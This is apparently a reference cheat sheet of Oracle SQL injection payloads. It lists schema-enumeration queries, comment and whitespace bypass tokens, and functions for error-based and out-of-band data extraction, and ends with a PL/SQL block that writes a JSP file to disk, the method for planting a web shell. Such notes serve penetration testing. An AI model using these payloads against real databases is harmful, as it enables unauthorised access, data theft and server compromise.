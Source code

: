 Oracle Payload
========================================

Common Payloads
----------------------------------------
- dump
- ``select * from v$tablespace;``
- ``select * from user_tables;``
- ``select column_name from user_tab_columns where table_name = 'table_name';``
- ``select column_name, data_type from user_tab_columns where table_name = 'table_name';``
- ``SELECT * FROM ALL_TABLES``
- Comment
- ``--``
- ``/**/``
- Space
- ``0x00`` ``0x09`` ``0xa-0xd`` ``0x20``
- Report an error
- ``utl_inaddr.get_host_name``
- ``ctxsys.drithsx.sn``
- ``ctxsys.CTX_REPORT.TOKEN_TYPE``
- ``XMLType``
- ``dbms_xdb_version.checkin``
- ``dbms_xdb_version.makeversioned``
- ``dbms_xdb_version.uncheckout``
- ``dbms_utility.sqlid_to_sqlhash``
- ``ordsys.ord_dicom.getmappingxpath``
- ``utl_inaddr.get_host_name``
- ``utl_inaddr.get_host_address``
- OOB
- ``utl_http.request``
- ``utl_inaddr.get_host_address``
- ``SYS.DBMS_LDAP.INIT``
- ``HTTPURITYPE``
- ``HTTP_URITYPE.GETCLOB``
- Bypass
- ``rawtohex``

Write a file
----------------------------------------
.. code-block:: sql

create or replace directory TEST_DIR as '/path/to/dir';
grant read, write on directory TEST_DIR to system;
declare
isto_file utl_file.file_type;
begin
isto_file := utl_file.fopen('TEST_DIR', 'test.jsp', 'W');
utl_file.put_line(isto_file, '<% out.println("test"); %>');
utl_file.fflush(isto_file);
utl_file.fclose(isto_file);
end;
